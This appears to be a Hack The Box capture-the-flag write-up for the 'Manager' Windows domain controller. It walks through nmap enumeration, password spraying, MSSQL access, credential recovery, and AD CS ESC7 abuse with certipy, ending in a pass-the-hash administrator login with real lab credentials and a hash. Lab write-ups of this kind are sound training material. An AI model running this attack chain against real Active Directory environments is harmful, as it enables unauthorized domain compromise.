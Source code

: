 # 1. Enumeration:

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-22 12:34 EDT
Nmap scan report for manager.htb (10.10.11.236)
Host is up (0.057s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Manager
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-22 16:35:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.236:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb                                                                                                         
|     DNS_Tree_Name: manager.htb                                                                                                                  
|_    Product_Version: 10.0.17763                                                                                                                 
| ms-sql-info: 
|   10.10.11.236:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-10-22T16:09:44
|_Not valid after:  2053-10-22T16:09:44
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1m37s, deviation: 1s, median: 1m38s
| smb2-time: 
|   date: 2023-10-22T16:36:40
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.57 seconds
```

- There are numerous open ports available, but we'll concentrate our attention on SMB, LDAP, web, and MSSQL.

# 2. Foothold

- We'll attempt to brute force the usernames using `crackmapexec`:

![img.png](img/img.png)

```
zhong
cheng
ryan
ravan
jinwoo
chinhae
operator
```

- Following that, let's conduct a Password Spraying attempt using `crackmapexec` as previously described:

```
crackmapexec smb [ IP or Domain ] -u [ users list ] -p [ password list ]
```

![img_1.png](img/img_1.png)

- We observe that two users have the capability to authenticate within the SMB. Now, let's switch from SMB to MSSQL to identify those who can successfully log in.

```
crackmapexec mssql [ IP or Domain ] -u [ users list ] -p [ password list ]
```

![img_2.png](img/img_2.png)

- Let's try connecting to MSSQL using `impacket`:

```
impacket-mssqlclient -port 1433 manager.htb/operator:operator@10.10.11.236 -window
```

![img_3.png](img/img_3.png)

- After entering, I checked the tables but found no data whatsoever. This led me to consider that it might not 
be data, but rather the execution of a process. Consequently, I conducted a search until I came across a command 
that would enable us to explore the directory's structure:

```
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```

![img_4.png](img/img_4.png)

- After downloading the backup file, we can find the username and password of user `Raven`:

![img_5.png](img/img_5.png)

- Since the target machine is Windows OS, we will use `evil-winrm` to connect to it via `Raven`:

```
evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

![img_6.png](img/img_6.png)

# 3. Privilege Escalation

- Let's check our privilege:

![img_7.png](img/img_7.png)

- We can see that `SeMachineAccountPrivilege` is enabled, so the exploit shouldn't be so hard. Let's upload `Certify.exe` to the machine:

![img_8.png](img/img_8.png)

- Run `Certify.exe` using the following command:

```
./Certify.exe find /vulnarable
```

![img_9.png](img/img_9.png)

- Once we identify vulnerabilities in the `SubCA` template, we will check Hacktrick for any SubCA-related issues:
  - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
  - https://github.com/ly4k/Certipy

- The part related to SubCA is the Vulnerable Certificate Authority Access Control (ESC7), 
which I will use for Attack 2. We can use the commands from Hacktrick in this context.

```
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username 'raven@manager.htb' -password 
'R4v3nBe5tD3veloP3r!123' && certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username 
'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' && certipy req -username 'raven@manager.htb' 
-password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 
'administrator@manager.htb' && certipy ca -ca 'manager-DC01-CA' -issue-requests 20 -username 
'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' && certipy req -username 'raven@manager.htb' 
-password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 20
```

![img_10.png](img/img_10.png)

- After obtaining the certificate, we proceed with the authentication process:

![img_11.png](img/img_11.png)

- In this step, if encounter an error, we need to adjust the time to match Kerberos by using the following command:

![img_12.png](img/img_12.png)

- Once we have the hash, we can employ it with `evil-winrm`, to obtain the root flag:

![img_13.png](img/img_13.png)

```
evil-winrm -u administrator -H ae5064c2f62317332c88629e025924ef -i manager.htb
```

![img.png](img/img_15.png)

### Reference:

- https://7mitu.github.io/2023/10/30/HackTheBox-Manager-WriteUP/
- https://github.com/saoGITo/HTB_Manager/blob/main/HTB_Manager_poc.py
